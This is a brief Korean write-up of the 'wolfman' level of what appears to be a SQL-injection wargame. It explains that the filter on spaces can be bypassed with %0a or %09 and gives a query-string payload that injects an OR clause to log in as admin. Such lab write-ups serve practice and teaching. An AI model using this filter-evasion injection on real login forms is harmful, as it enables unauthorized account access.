 # wolfman

공백을 필터링 하고 있다.   
<br/>

* 공백은 %0a, %09 등으로 우회할 수 있다.   


```
?pw=aa'%0aor%0aid='admin'%23
```

